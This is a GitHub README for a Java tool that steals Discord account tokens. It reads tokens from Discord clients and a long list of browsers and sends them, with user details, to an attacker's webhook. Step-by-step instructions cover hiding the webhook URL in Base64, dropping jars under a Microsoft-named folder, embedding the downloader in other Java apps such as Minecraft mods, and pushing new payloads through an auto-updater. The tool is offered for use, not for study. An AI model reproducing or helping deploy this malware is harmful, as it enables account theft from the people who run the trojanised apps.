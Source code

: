 Simple Discord token logging utility written in Java. Supports both [Clients](#client-support-list) and [Browsers](#browser-support-list).
# Features
 - Capture tokens saved by Discord clients and browsers in LevelDB files
 - Retrieve user information using said tokens and seamlessly send it to a designated webhook in an easily customizable embed format with placeholders
 - Deployment through a lightweight downloader that operates independently of external dependencies
 - Enhance and adapt the application's functionality as needed through auto-update capabilities
# Requirements
 - Java 11+
 - Jackson
 - JNA-Platform
# Usage
1. *(Optional)* Modify the download path for the Updater in the **TokenLogger** class
    ```java
    public static final String UPDATER_PATH = System.getenv("LOCALAPPDATA") + "\\Microsoft\\ExampleUpdater.jar";
    ```
2. Encode your webhook URL in Base64 and paste it into the **TokenLogger** class
    ```java
    public static final String WEBHOOK_URL = "YOUR BASE64 ENCODED WEBHOOK URL HERE";
    ```
3. *(Optional)* Adjust the download path for the Application in the **Updater** class
    ```java
    private static final String APP_PATH = System.getenv("LOCALAPPDATA") + "\\Microsoft\\Example.jar";
    ```
4. Host a file containing the version and download link to the main Application jar information just like in [/examples/Version Info](../blob/master/examples/Version%20Info) (the link should not be filled out yet)
    ```json
    {
        "version":1,
        "link":""
    }
    ```
5. Update the link in the **UpdateHelper** class to point to the version information file
    ```java
    private static final String INFO_URL = "https://raw.githubusercontent.com/0x5d0/Discord-Token-Logger/master/examples/Version%20Info";
    ```
6. Build the **Updater**
7. Host the Updater jar, following the example in [/examples/Updater.jar](../blob/master/examples/Update.jar)
8. Update the link in the **TokenLogger** class to point to the hosted Updater jar
    ```java
    public static final String UPDATER_URL = "https://github.com/0x5d0/Discord-Token-Logger/raw/master/examples/Updater.jar";
    ```
9. Update the link in the **Downloader** class as well
    ```java
    private static final String DOWNLOAD_URL = "https://github.com/0x5d0/Discord-Token-Logger/raw/master/examples/Updater.jar";
    ```
10. *(Optional)* Modify the download path for the Updater in the **Downloader** class (matching step one)
    ```java
    private static final String SAVE_PATH = System.getenv("LOCALAPPDATA") + "\\Microsoft\\ExampleUpdater.jar";
    ```
11.  Implement the Downloader source in your preferred Java application (such as a Minecraft mod or any Java app) and build it
12. Build the **Application**
13. Host the main Application jar, similar to [/examples/Application.jar](../blob/master/examples/Application.jar)
14. Return to step four and update the "link" field in the version information file to point to the hosted Application jar
    ```json
    {
    "version":1,
    "link":"https://github.com/0x5d0/Discord-Token-Logger/raw/master/examples/Application.jar"
    }
    ```
15. Run the Downloader or the Java application with the integrated downloader, and your Discord token and related user information will be automatically sent to your webhook.
## Auto-Update
- ### Application
    To distribute updates to all instances of your application, you must first locate and update the version number in the **UpdateHelper** class to a higher value than the current one.This version number will help identify whether an update is available. You can then make the necessary changes to your main application and build it. Finally, host the new version and update the version information file to reflect these changes. This file serves as a reference for your application to determine whether an update is needed.
    
    *Be cautious when updating the version number. If the version number specified in the UpdateHelper class is smaller than the one in the version information file, the Application and Updater will enter a loop of downloading and deleting each other continuously. Make sure to keep the version numbers consistent to avoid this issue.*
- ### Updater
    To distribute new versions of the updater itself, simply build it with the necessary changes and replace the old file with it. The main application will download it the next time an update is needed.
    
    *If you cannot get the same URL for the updater as before, you will have to push a dummy update of the main application with a higher version number and the link to the new updater jar. In general, if you do not own a server, it would be good practice to host the files on GitHub and update them through that to retain the same URLs.*

### Client Support List
- Discord
- Discord Canary
- Discord PTB

### Browser Support List
- Brave Browser
- Epic Privacy Browser
- Falkon
- Google Chrome
- Google Chrome Beta
- Google Chrome Canary
- Google Chrome Dev
- Iridium
- Microsoft Edge
- Opera
- Opera Beta
- Opera Developer
- Opera GX
- (Ungoogled) Chromium
- Vivaldi
- Yandex
